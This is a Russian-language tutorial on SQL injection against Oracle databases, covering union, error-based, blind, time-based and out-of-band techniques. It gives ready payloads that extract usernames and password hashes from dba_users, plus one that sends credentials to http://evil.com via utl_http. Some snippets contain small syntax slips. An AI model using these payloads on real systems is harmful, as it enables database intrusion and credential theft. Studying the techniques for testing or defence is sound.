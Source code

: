 # SQL-инъекции

## Union SQL-инъекции

Данная техника строится на использовании оператора `UNION`. Этот оператор позволяет объединить вывод нескольких `SELECT` запросов. Однако, _**важный момент — количество и тип аргументов должны быть одинаковыми у каждого `SELECT` запроса**_. В противном случае или страница будет отображена некорректно, или будет выведено сообщение об ошибке.

Сначала для проведения данной атаки нужно определить количество аргументов в SQL запросе. Делается это перебором — с помощью оператора `ORDER BY`.

Выглядит это примерно так:
```sql
-- запрос выполнен
' ORDER BY 1 --
-- запрос выполнен
' ORDER BY 2 --
-- запрос выполнен
' ORDER BY 3 --
-- возникло исключение
' ORDER BY 4 --
```
То есть мы берём то значение, на котором произошла ошибка, и отнимаем один. Значит аргументов 3.
Далее нужно определить тип аргументов, а именно у каких из них задан параметр `NOT NULL` (то есть не могут быть нулевыми) и какой у таких аргументов тип:

```sql
-- возникло исключение
UNION SELECT 'test', null, null FROM dual --
-- запрос выполнен
UNION SELECT null, 'test', null FROM dual --
```

В данном случае повезло сразу попасть на нужный тип. Если бы выдало исключение, мы бы пробовали числовые и даты.
Мы определили число аргументов, какие из них не нулевые (NOT NULL) и тип данных аргументов. Теперь мы можем сконструировать запрос:

```sql
' UNION SELECT null, (SELECT username || '--' || password
FROM dba_users WHERE username = 'SYS'), null FROM dual --
```

Что мы видим? С UNION понятно, он нужен чтобы объединить несколько запросов. Далее у нас null, нулевой аргумент, мы его определили до этого.
Далее запрос. Из таблицы dba_users мы просим выдать нам столбцы username и password, причём только те, где username = ‘SYS’. Но почему мы используем || ‘--’ ||? Таким образом в результате запроса нам выдаст не слепленную друг с другом комбинацию логинов и паролей типа adminpassword, а admin—password. Согласитесь, так намного удобнее.

Почему пользователь SYS? Это админский пользователь в Oracle. Перейдём к более интересной категории атак.

## Error-based SQL-инъекции

Данная техника используется, когда сообщение о возникшем исключении (ошибке) выводится пользователю и есть факт некорректной обработки исключений. Тут уже многое зависит от того о какой СУБД мы говорим: MySQL, Oracle или других, так как техники по большей части индивидуальны. Для демонстрации представим, _**что у нас СУБД Oracle**_.

В нашем случае мы воспользуемся одной из уязвимых функций — `ctxsys.drithsx.sn()`.
Вот пример кода, который покажет нам две первые строки из таблицы с помощью сообщения об исключении:

```sql
-- извлечение первой строки из dba_users
' AND 1=ctxsys.drithsx.sn(1,(SELECT cred FROM (SELECT
username || '--' || password cred, rownum FROM dba_users)
WHERE rn= 1)) -
-- извлечение второй строки из dba_users
' AND 1=ctxsys.drithsx.sn(1,(SELECT cred FROM (SELECT
username || '--' || password cred, rownum FROM dba_users)
WHERE rn= 2)) -
```

## Blind SQL-инъекция

Если нет возможности использования Union и Error-инъекций, однако есть какая-либо возможность влиять на логику работы приложения, можно использовать Blind SQL-инъекции.

При проведении Blind-инъекции составляется выражение, которое при истинном значении не нарушает логику работы. Неправильное же поведение вызывает ошибку в работе приложения и страницы. То есть это своего рода логический перебор, выражения с ответом да/нет или же попытка угадать какое-то значение.

Например, как будет выглядеть слепая инъекция, цель которой узнать, есть ли у пользователя роль DBA:

```sql
-- если страница корректно отобразилась, пользователю назначена роль DBA
Product 1' AND NVL((SELECT LENGTH(username) FROM
user_role_privs WHERE granted_role = 'DBA'),0) != 0 --
```

## Time-based SQL-инъекции

Схожа с Blind SQL по своей сути. Если запрос правильный — ответ будет несколько секунд приходить к нам, если нет — отклик почти мгновенный. С помощью данной техники мы можем как проверить какое-либо логическое условие(например, наличие роли), так и, например, посимвольно извлечь данные из таблиц.

```sql
-- извлечение первого символа
Product 1 AND 0!=(select decode(substr(user,1,1),'A',
(select count(*) from all_objects, all_objects),0) from dual) --
Product 1' AND 0!=(select decode(substr(user,1,1'),'B',
(select count(*) from all_objects, all_objects),0) from dual) --
```

## Out-bound SQL-инъекция

Out-bound-инъекция используется в случае, если всё остальное не помогает. Для этого нам понадобится удалённый сервер либо доступ к директории на сервере с БД. Смысл в том, что мы направляем вывод SQL-запроса на наш сервер (обычно с помощью протоколов DNS, HTTP или SMTP). Также возможен вариант, когда мы вывод запроса записываем в файл в директории СУБД. Для выполнения данных манипуляций нам понадобится пакет url_http.

```sql
-- результата выполнения запроса передается на http://evil.com
' AND 1=SELECT SUM(LENGTH(utl_http.request('http://ev?
il.com/'||username||"--"||password)) FROM dba.users -
```
